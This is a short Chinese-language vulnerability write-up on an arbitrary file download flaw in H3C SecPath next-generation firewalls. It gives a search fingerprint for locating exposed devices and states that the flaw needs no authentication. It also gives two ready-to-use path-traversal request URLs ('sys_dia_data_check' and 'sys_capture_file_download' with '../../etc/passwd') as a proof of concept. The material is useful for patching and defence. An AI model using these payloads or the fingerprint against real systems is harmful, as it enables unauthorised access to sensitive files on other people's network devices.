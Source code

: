 # 

# H3C SecPath下一代防火墙 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

```
H3C SecPath
```

## 网络测绘

```
title="Web user login"
```

## 漏洞复现

登录页面如下

![](./images/202202110914717.png)

存在漏洞点的功能有两个

![](./images/202202110914728.png)

点击下载抓包更改请求

![](./images/202202110914422.png)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```
